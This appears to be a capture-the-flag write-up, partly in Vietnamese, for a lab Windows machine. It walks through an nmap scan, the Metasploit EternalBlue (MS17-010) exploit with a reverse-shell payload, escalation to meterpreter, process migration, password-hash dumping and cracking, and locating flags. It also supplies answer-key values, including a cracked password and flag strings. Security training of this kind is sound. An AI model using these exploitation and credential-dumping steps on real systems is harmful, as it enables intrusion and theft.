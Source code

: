 18022022
-------------------------------------------------------------------------
IP: 10.10.29.133

<h3>Recon</h3>

Scan với nmap:
```
nmap -sV -sC --script vuln -oN blue.nmap 10.10.29.133
```
![image](https://user-images.githubusercontent.com/95600382/154634158-d639ec9b-08fc-4a77-aeff-373d7f03cf5a.png)\
![image](https://user-images.githubusercontent.com/95600382/154634191-eecb6ad8-02d1-456b-a665-e49fd791e1cd.png)

How many ports are open with a port number under 1000?\
`3`\
What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)\
`ms17-010`

<h3>Gain Access</h3>

Khởi động metasploit. Máy đích tồn tại lỗ hổng ms17-010.\
![image](https://user-images.githubusercontent.com/95600382/154636630-2d13f869-1ce6-474b-a684-50282d2d5062.png)\
Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)\
`exploit/windows/smb/ms17_010_eternalblue`\
Show options and set the one required value. What is the name of this value? (All caps for submission)\
`RHOST`\
![image](https://user-images.githubusercontent.com/95600382/154638154-39ed998d-bdf0-4f78-b451-d5537d865278.png)\
Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:
```
set payload windows/x64/shell/reverse_tcp
```
With that done, run the exploit!\
![image](https://user-images.githubusercontent.com/95600382/154638235-5a93c31b-4eaf-4525-a536-eefd025b4bc0.png)\
Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.✔\

<h3>Escalate</h3>

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)\
![image](https://user-images.githubusercontent.com/95600382/154640612-bf17abb3-37c1-4d9b-8fb0-ec25a8710719.png)\
`post/multi/manage/shell_to_meterpreter`\
Select this (use MODULE_PATH). Show options, what option are we required to change?\
`SESSION`\
Set the required option, you may need to list all of the sessions to find your target here.\
```
sessions -l
set SESSION 1
sessions -i 1
```
![image](https://user-images.githubusercontent.com/95600382/154643114-c00e6d60-bd4a-4a1f-bd67-2f4cbb2a2a8c.png)\
Run! If this doesn't work, try completing the exploit from the previous task once more\
Once the meterpreter shell conversion completes, select that session for use.\
![image](https://user-images.githubusercontent.com/95600382/154643218-193c4358-f648-4d10-b5db-82a0508eae17.png)\
Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.\
![image](https://user-images.githubusercontent.com/95600382/154643340-06270592-4aaf-4cd3-b367-43dcdb2f0e83.png)\
List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).\
![image](https://user-images.githubusercontent.com/95600382/154643445-f5f1ded1-e51e-4426-83c0-696aed4c12de.png)\
Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.\
`migrate -N winlogon.exe`
![image](https://user-images.githubusercontent.com/95600382/154645184-28ada1f8-84c8-49bc-b44f-c68a710e136b.png)\

<h3>Cracking</h3>

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?\
![image](https://user-images.githubusercontent.com/95600382/154649101-b158e3be-1776-46ca-9242-940c6d56c016.png)\
`Jon`\
Copy this password hash to a file and research how to crack it. What is the cracked password?\
![image](https://user-images.githubusercontent.com/95600382/154651749-cff8dbe3-1c2e-4bd5-9d11-107927a1b913.png)
`alqfna22`\

<h3>Find Flags!</h3>

Flag1? This flag can be found at the system root.\
![image](https://user-images.githubusercontent.com/95600382/154652895-bac9bda1-cbf2-4e19-bd00-d8e95f3164de.png)
`flag{access_the_machine}`\
Flag2? This flag can be found at the location where passwords are stored within Windows.\
*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.*\
google:`windows sam location`\
```
cd C:\Windows\System32\config
```
![image](https://user-images.githubusercontent.com/95600382/154655101-b73ec832-d0d1-4fb7-be21-ec4c38ad9409.png)\
`flag{sam_database_elevated_access}`\
Flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.\
![image](https://user-images.githubusercontent.com/95600382/154654014-40aabd22-2ef6-4748-88da-eb8ccb41ab61.png)\
`flag{admin_documents_can_be_valuable}`
